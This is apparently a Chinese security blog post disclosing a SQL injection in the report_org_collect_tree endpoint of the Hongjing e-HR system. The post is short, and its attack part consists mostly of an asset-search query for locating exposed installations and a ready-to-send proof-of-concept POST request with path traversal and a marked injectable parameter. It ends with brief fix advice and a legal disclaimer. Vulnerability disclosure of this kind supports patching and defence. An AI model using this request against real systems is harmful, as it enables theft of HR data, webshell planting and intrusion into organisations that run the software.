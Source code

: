 #  【1day】宏景e-HR的report_org_collect_tree接口sql注入   
原创 十二  十二主神   2024-03-20 21:09  
  
**重要通知**  
  
师傅们，动动小手指，设个星标，灰常感谢  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnFn53wEvAcBGHG36u6pO6KXqHPoSaibqtKk2QVJhMwO3yUcRXUoJ77Ag/640?wx_fmt=png&from=appmsg "")  
# 漏洞描述  
  
宏景e-HR的report_org_collect_tree接口sql注入，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。  
  
**资产测绘**  
```
app="HJSOFT-HCM"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnNWiaYIqr3sblCEic9hWDeMq0BezfaLsqiabDv02GQiceszmg2vZyhr04jA/640?wx_fmt=png&from=appmsg "")  
# 漏洞复现  
  
部分界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnEuE1tHl05p5y6cxnJpQ1mlGcicwaicwsESnicbfXaNGmRVxWCGORKOM2Q/640?wx_fmt=png&from=appmsg "")  
  
**POC**  
```
POST /templates/attestation/../../report/report_collect/report_org_collect_tree.jsp HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Content-Type: application/x-www-form-urlencoded

params=&isAction=2&cycle_id=2*
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnPQPpPHtZiazzfNU4Hd69fZhaciaC0fXrhCeLzibFzfGzL6f7WiaKibITXtg/640?wx_fmt=png&from=appmsg "")  
  
**修复建议**  
  
1  
、请联系厂商进行修复或升级到安全版本。  
  
2、如非必要，禁止公网访问该系统。  
  
3、设置白名单访问。  
<table><tbody style="outline: 0px;"><tr style="outline: 0px;"><td width="557" valign="top" style="outline: 0px;word-break: break-all;hyphens: auto;"><p style="outline: 0px;font-family: system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);color: rgb(34, 34, 34);"><strong style="outline: 0px;"><span style="outline: 0px;font-family: 宋体;color: red;">免责声明：</span></strong></p><p style="outline: 0px;font-family: system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);"><span style="outline: 0px;font-family: 宋体;">  </span><span style="outline: 0px;font-size: 14px;">本文章仅做网络安全技术研究使用！严禁用于非法犯罪行为，请严格遵守国家法律法规；</span><span style="outline: 0px;color: rgb(0, 0, 0);font-size: 14px;letter-spacing: 0.544px;text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);">请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。<span style="outline: 0px;letter-spacing: 0.578px;">使用本文所提供的信息或工具即视为</span></span><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);color: rgb(0, 0, 0);">同意本免责声明</span><span style="outline: 0px;color: rgb(0, 0, 0);text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);font-size: 14px;letter-spacing: 0.578px;">，并承诺遵守相关法律法规和道德规范。</span><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;">公众号发表的一切文章如有侵权烦请私信联系告知，我们会立即删除并对您表达最诚挚的歉意！感谢您的理解！</span></p><p style="outline: 0px;"><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;"><br style="outline: 0px;"/></span></p></td></tr></tbody></table>  
**交流群**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnPWg70EicHqPnwNrbkMTesiaWtOnAboN3sNNibh5x0aJdMprribfjPiayJ2g/640?wx_fmt=png&from=appmsg "")  
  
